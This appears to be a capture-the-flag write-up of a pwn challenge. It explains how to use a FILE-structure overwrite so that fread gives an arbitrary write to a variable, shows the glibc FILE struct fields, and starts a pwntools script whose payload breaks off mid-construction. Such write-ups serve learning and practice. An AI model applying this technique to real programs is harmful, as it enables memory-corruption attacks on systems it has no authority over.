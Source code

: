 From the decompiled main function we can see that our win condition is aura not being 0. The program then opens and prints out the contents of flag.txt

However aura is 0 by default and we have no direct way of writing to it. We can however use the `fread` function to do an arbitrary write. For that we need to locate the file struct it "reads" from which should be `pFVar1`. 

In gdb let us break at read and examine rsi 

```c
read(0,pFVar1,0x100)
```
- 2nd argument (rsi) has pFVar1 

![](@/assets/images/IMG-20250427123504874.png)
- this is the file struct we want to overwrite 

Let's examine it,

![](@/assets/images/IMG-20250428163048475.png)

Ok but what do the values correspond to? For that we need to look at what a file struct is supposed to look like,

```
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  .
  .
  .
  int _fileno;          
```

For us the first important part is `buf_base` `buf_end`, these correspond to the start and end of the area we want to write to. 

The second important part is `int _fileno`, if we set this to 0 then `fread` will read from stdin (standard input). 

Therefore all we have to do is set everything to 0 except `buf_base` and `buf_end` which will be the address of `aura`, and then once we are prompted for input, we can write whatever we want to `aura`.

Scripting time,

```python 
p = start()

# Get aura address
p.recvuntil("my aura: ")
aura_addr = p.recvline()[:-1].decode()
aura_addr = aura_addr[2:]
aura_addr = bytes.fromhex(aura_addr)
aura_addr = int(aura_addr.hex(), 16)

print(f" aura at {hex(aura_addr)}")

p.recvuntil(b'ur aura? ')
  
  
# Complete FILE structure
payload  = p64(0x8000)                 # _flags                # _IO_USER_BUF flag 
```